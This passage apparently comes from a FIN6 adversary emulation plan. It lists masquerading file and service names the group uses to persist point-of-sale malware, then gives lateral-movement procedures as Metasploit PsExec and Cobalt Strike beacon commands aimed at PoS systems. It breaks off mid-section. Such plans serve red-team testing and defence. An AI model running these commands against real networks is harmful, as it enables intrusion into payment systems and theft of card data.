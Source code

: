 Additional file names ([T1036.005](https://attack.mitre.org/techniques/T1036/005)) used by FIN6 include:<sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup>

```sh
logmesvc.exe, ttfmgr.exe, powershell.exe, dspsvc.exe, logmeinlauncher.exe, and POSreport.exe, PnPXAssoc.exe
```

Additional service names ([T1036.004](https://attack.mitre.org/techniques/T1036/004/)) used by FIN6 in persisting PoS malware:<sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup>

```sh
#{AV} Management Instrumentation, BFHlpr / Base Filtering Helper, hdmsv c/ Windows Hardware Management Driver, TrueType Fonts Management Service, and LogMeInServer
```

### Procedures

#### 5.1 Lateral movement to PoS system using a Command and Control (C2) Framework.<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup> <sup>[9](https://securityintelligence.com/posts/more_eggs-anyone-threat-actor-itg08-strikes-again/)</sup> <sup>[13](https://usa.visa.com/dam/VCOM/global/support-legal/documents/fin6-cybercrime-group-expands-threat-To-ecommerce-merchants.pdf)</sup>

##### Metasploit PsExec - PowerShell ([T1059.001](https://attack.mitre.org/techniques/T1059/001/))

FIN6 Procedure

```sh
msf> use exploit/windows/smb/psexec
msf exploit(psexec) > set Target PowerShell
msf exploit(psexec) > set RHost #{PoS system}
msf exploit(psexec) > set SMBDomain #{Domain}
msf exploit(psexec) > set SMBPass #{Password}
msf exploit(psexec) > set SMBUser #{User}
msf exploit(psexec) > exploit
```

##### CobaltStrike PowerShell PsExec ([T1059.001](https://attack.mitre.org/techniques/T1059/001/), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 Procedure

```sh
beacon> jump psexec_psh #{PoS system}
```

##### CobaltStrike - Remote Exec ([T1047](https://attack.mitre.org/techniques/T1047/), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))
